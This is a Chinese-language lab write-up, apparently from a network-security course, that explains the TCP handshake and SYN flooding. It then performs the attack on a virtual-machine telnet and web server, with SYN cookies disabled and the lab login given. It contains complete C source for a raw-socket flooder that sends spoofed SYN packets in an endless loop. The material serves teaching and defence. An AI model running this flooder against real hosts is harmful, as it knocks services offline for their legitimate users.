









# SYN泛洪攻击

SYN泛洪攻击针对的是TCP建立连接使用的三次握手协议。  

## 三次握手协议


1、客户端发送SYN包给服务端，用随机产生的数字x作为初始序列号。（因TCP头部的SYN位被置为1，因此这个包叫
SYN包）  
2、服务端收到SYN包后，回复一个SYN+ACK包，并用y作为初始序列号  

    服务端收到初始SYN包时，使用一个叫做传输控制块（TCB）的特殊数据结构来存储连接信息。到这一步时，连接还
    没有建立，因此称为半打开连接。服务端将TCB存储在一个只用于存放半打开连接的队列中。在服务端从客户端得到
    ACK包后，它会将TCB拿出队列。
    如果ACK包没有到达，服务端会重新发送SYN+ACK包。如果最后的ACK包一直收不到，存储在半打开连接队列中的TCB
    最终会因超时而被丢弃。
    
3、客户端收到后发一个ACK包结束这次握手

## SYN泛洪攻击

攻击原理：在三次握手连接完成之前，服务器将所有半打开连接存储在一个队列中，这个队列的容量是有限的，如果攻击者
填满这个队列，那么服务器将没有空间来存储任何半打开连接的TCB，不再接受任何新的SYN包，结果就是任何人无法连接
服务器。

这样攻击过程如下：  
1、连续发送SYN包给服务器  
2、不要完成三次握手协议的第三步  

导致TCB记录被移出队列的情况有以下几种：  
1、完成三次握手  
2、记录超时，一般40s  
3、服务器收到针对半打开连接的RST包  

!!! 有防火墙因素攻击变复杂

    当使用SYN泛洪攻击服务器时，攻击者需要使用随机的源IP地址，否则攻击很容易被防火墙屏蔽。  
    当服务器回复SYN+ACK包时，如果伪造的IP地址没有对应计算器，半打开连接将会在队列中停留直到超时丢弃。  
    如果伪造的IP地址到达了真实的计算机，计算器将会发送TCP RST包给服务器。  
    实践中会有很多RST包，攻击必须和这些RST包竞争。  

## 进行SYN泛洪攻击

虚拟机1为服务器，虚拟机2为客户端  

1、服务器关闭SYN cookies防御措施  
```bash
sudo sysctl -w net.ipv4.tcp_syncookies=0
```  
2、检查服务器中的半打开连接状态
```bash
netstat -tna
```


3、没有攻击时用宿主机可以顺利登陆服务器


!!! 虚拟机账号

    账号：seed  
    密码: dees

4、客户端攻击服务器telnet服务

!!! synflood

    为了进行SYN泛洪攻击，需要发送大量的SYN包，每一个都有一个随机的源IP地址，Netwox工具里的工具76，
    叫synflood能实现这个功能。



-s选项的raw意味着在ip4/ip6层进行数据包伪造，而不是链路层

5、服务端再次检查半打开连接状态



SYN_RECV是半打开的连接，而源IP地址是随机的

6、宿主机再次登陆服务器


证明攻击成功了

## 编程进行SYN泛洪攻击

```c
// myheader.h
/* Ethernet header */
struct ethheader {
    u_char  ether_dhost[6];    /* destination host address */
    u_char  ether_shost[6];    /* source host address */
    u_short ether_type;                     /* IP? ARP? RARP? etc */
};

/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address
  struct  in_addr    iph_destip;   //Destination IP address
};

/* ICMP Header  */
struct icmpheader {
  unsigned char icmp_type; // ICMP message type
  unsigned char icmp_code; // Error code
  unsigned short int icmp_chksum; //Checksum for ICMP Header and data
  unsigned short int icmp_id;     //Used for identifying request
  unsigned short int icmp_seq;    //Sequence number
};

/* UDP Header */
struct udpheader
{
  u_int16_t udp_sport;           /* source port */
  u_int16_t udp_dport;           /* destination port */
  u_int16_t udp_ulen;            /* udp length */
  u_int16_t udp_sum;             /* udp checksum */
};

/* TCP Header */
struct tcpheader {
    u_short tcp_sport;               /* source port */
    u_short tcp_dport;               /* destination port */
    u_int   tcp_seq;                 /* sequence number */
    u_int   tcp_ack;                 /* acknowledgement number */
    u_char  tcp_offx2;               /* data offset, rsvd */
#define TH_OFF(th)      (((th)->tcp_offx2 & 0xf0) >> 4)
    u_char  tcp_flags;
#define TH_FIN  0x01
#define TH_SYN  0x02
#define TH_RST  0x04
#define TH_PUSH 0x08
#define TH_ACK  0x10
#define TH_URG  0x20
#define TH_ECE  0x40
#define TH_CWR  0x80
#define TH_FLAGS        (TH_FIN|TH_SYN|TH_RST|TH_ACK|TH_URG|TH_ECE|TH_CWR)
    u_short tcp_win;                 /* window */
    u_short tcp_sum;                 /* checksum */
    u_short tcp_urp;                 /* urgent pointer */
};

/* Psuedo TCP header */
struct pseudo_tcp
{
        unsigned saddr, daddr;
        unsigned char mbz;
        unsigned char ptcl;
        unsigned short tcpl;
        struct tcpheader tcp;
        char payload[1500];
};
```


```c
// checksum.c
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"


unsigned short in_cksum (unsigned short *buf, int length)
{
   unsigned short *w = buf;
   int nleft = length;
   int sum = 0;
   unsigned short temp=0;

   /*
    * The algorithm uses a 32 bit accumulator (sum), adds
    * sequential 16 bit words to it, and at the end, folds back all
    * the carry bits from the top 16 bits into the lower 16 bits.
    */
   while (nleft > 1)  {
       sum += *w++;
       nleft -= 2;
   }

   /* treat the odd byte at the end, if any */
   if (nleft == 1) {
        *(u_char *)(&temp) = *(u_char *)w ;
        sum += temp;
   }

   /* add back carry outs from top 16 bits to low 16 bits */
   sum = (sum >> 16) + (sum & 0xffff);  // add hi 16 to low 16
   sum += (sum >> 16);                  // add carry
   return (unsigned short)(~sum);
}

/****************************************************************
  TCP checksum is calculated on the pseudo header, which includes
  the TCP header and data, plus some part of the IP header.
  Therefore, we need to construct the pseudo header first.
*****************************************************************/


unsigned short calculate_tcp_checksum(struct ipheader *ip)
{
   struct tcpheader *tcp = (struct tcpheader *)((u_char *)ip +
                            sizeof(struct ipheader));

   int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

   /* pseudo tcp header for the checksum computation */
   struct pseudo_tcp p_tcp;
   memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

   p_tcp.saddr  = ip->iph_sourceip.s_addr;
   p_tcp.daddr  = ip->iph_destip.s_addr;
   p_tcp.mbz    = 0;
   p_tcp.ptcl   = IPPROTO_TCP;
   p_tcp.tcpl   = htons(tcp_len);
   memcpy(&p_tcp.tcp, tcp, tcp_len);

   return  (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                     tcp_len + 12);
}
```
```c
// tcp_syn_flooding.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"

#define DEST_IP "192.168.230.150"
#define DEST_PORT 23
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);


void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                     &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}

int main()
{
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *)buffer;
    struct tcpheader *tcp = (struct tcpheader *)(buffer + sizeof(struct ipheader));
    
    srand(time(0));
    while(1)
    {
        memset(buffer, 0, PACKET_LEN);
        
        tcp->tcp_sport = rand();
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq = rand();
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN;
        tcp->tcp_win = htons(20000);
        tcp->tcp_sum = 0;
        
        ip->iph_ver = 4;
        ip->iph_ihl = 5;
        ip->iph_ttl = 50;
        ip->iph_sourceip.s_addr = rand();
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP;
        ip->iph_len = htons(sizeof(struct ipheader) + sizeof(struct tcpheader));
        
        tcp->tcp_sum = calculate_tcp_checksum(ip);
        
        send_raw_ip_packet(ip);
    }
    
    return 0;
}
```
实验一：  
把上面第四步改成：  

会发现服务端也是大量SYN_RECV，宿主机telnet服务器超时，实验成功

实验二：  
1、端口号改成80，在客户端发动攻击  
2、服务端会看到大量80端口的SYN_RECV  


2、无痕模式启动浏览器，访问服务端web  


!!! warning

    发送伪造原始套接字一定要用sudo权限，实验不成功往往是这个原因
